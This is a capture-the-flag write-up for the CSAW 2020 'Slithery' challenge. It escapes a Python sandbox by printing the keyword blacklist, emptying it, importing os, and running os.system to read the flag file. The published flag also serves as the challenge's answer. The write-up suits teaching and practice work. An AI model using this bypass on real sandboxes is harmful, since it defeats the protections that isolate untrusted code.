 # CSAW 2020 Qualifiers : Slithery 
> **Category**: Pwn **Points**:100 **Description**:

Setting up a new coding environment for my data science students. Some of them are l33t h4ck3rs that got RCE and crashed my machine a few times :(. Can you help test this before I use it for my class? Two sandboxes should be better than one...

`nc pwn.chal.csaw.io 5011`

[sandbox.py](/csaw20/pwn/slithery/sandbox.py)

### Solution:

Connect to the nc address, you are prompted with a python interpreter <br>
```
EduPy 3.8.2
>>>
```

Run some python commands, produces `Exception: not allowed!!` as output.

Thus, all the common python cmds are blacklisted.<br>

Look through sandbox.py<br>
```python
import blacklist  # you don't get to see this :p
```

```python
while True:
        try:
            command = input(">>> ")
            if any([x in command for x in blacklist.BLACKLIST]):
                raise Exception("not allowed!!")
```

A custom blacklist is used which we don't have access to or do we ?<br>
`help` and `print` weren't blacklisted<br>

```
>> help(blacklist)
Help on module blacklist:

NAME
    blacklist - blacklist.py

DESCRIPTION
        Module that is seperated and kept secret, as it contains all the banned keywords
        that cannot be executed in the sandbox.

DATA
    BLACKLIST = ['__builtins__', '__import__', 'eval', 'exec', 'import', '...
    BLACKLIST2 = ['eval', 'exec', 'import', 'from', 'timeit', 'base64comma...

FILE
    /home/slithery/blacklist.py

>> print(blacklist.BLACKLIST)
['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']
```

Can we bypass this blacklist ? There are many ways but I found a easier approach<br>
You could just completely change or empty the blacklist, so we are no longer restricted<br>

```
>> blacklist.BLACKLIST = []
>> import os # now works
```

Now enumerate and find the flag<br>

```
>> import os
>> os.system('cat /home/slithery/flag.txt')
```

### Flag
flag{y4_sl1th3r3d_0ut}




 

